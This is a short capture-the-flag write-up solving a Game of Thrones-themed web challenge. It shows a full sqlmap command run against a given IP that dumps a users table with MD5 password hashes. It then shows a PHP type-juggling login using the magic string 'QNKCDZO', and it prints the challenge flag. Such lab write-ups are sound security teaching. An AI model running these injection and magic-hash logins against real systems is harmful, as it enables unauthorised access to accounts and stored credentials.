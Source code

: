 SQL injection

I used sqlmap to get the data:

```
http://163.172.176.29/WALL/index.php (POST)  # /usr/bin/sqlmap -u http://163.172.176.29/WALL/index.php --data=life=JonSnow&soul=234 --user-agent=random --threads=10 -T users -C password,role,username --dump


Database: SQLite_masterdb
Table: users
[3 entries]
+----+----------------------------------+--------+---------------+
| id | password                         | role   | username      |
+----+----------------------------------+--------+---------------+
| 1  | 8bed707bb9c0a948fa0c465495fc8014 | normal | JonSnow       |
| 2  | 0e565041023046045310587974628079 | admin  | LordCommander |
| 3  | 6a1def57895118aed6fd730d0dd84ce3 | normal | Targaryen     |
+----+----------------------------------+--------+---------------+

```

Notice that the hash started with '0e' and in the sourcecode we could see that the strings were matched with '==' so I used 'LordCommander:QNKCDZO' to login and got the flag: CTF{type_juggling_and_blind_sql_are_worth_a_fun_240610708}

How could I login with 'QNKCDZO', read this post @ stackoverflow: https://stackoverflow.com/questions/22140204/why-md5240610708-is-equal-to-md5qnkcdzo



